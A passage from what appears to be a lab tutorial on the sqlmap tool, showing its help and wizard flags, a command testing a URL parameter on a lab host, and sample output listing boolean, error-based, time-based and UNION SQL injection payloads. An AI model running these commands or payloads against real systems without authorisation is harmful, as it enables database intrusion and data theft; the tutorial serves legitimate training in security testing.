 #### Help / Ease of use

|Flag|Description|
|---|---|
|`--help`|List all options|
|`--wizard`|Interactive wizard mode|

---

## 🚀 Usage Examples

### 🧭 Interactive Wizard

sqlmap --wizard

```
sqlmap --wizard
```

Walks you through an interactive series of prompts.

---

### 🔍 Testing for SQL Injection

#### HTTP GET Example

sqlmap -u "http://target.thm/search?cat=1"

```
sqlmap -u "http://target.thm/search?cat=1"
```

- SQLMap tests common injection techniques:
    
    - boolean-based blind
        
    - error-based
        
    - time-based blind
        
    - UNION query
        

Sample output might include:

Parameter: cat (GET)
    Type: boolean-based blind
    Payload: cat=1 AND 2175=2175
    Type: error-based
    Payload: cat=1 AND EXTRACTVALUE(...)
    Type: time-based
    Payload: cat=1 AND SLEEP(5)
    Type: UNION
    Payload: cat=1 UNION SELECT ...
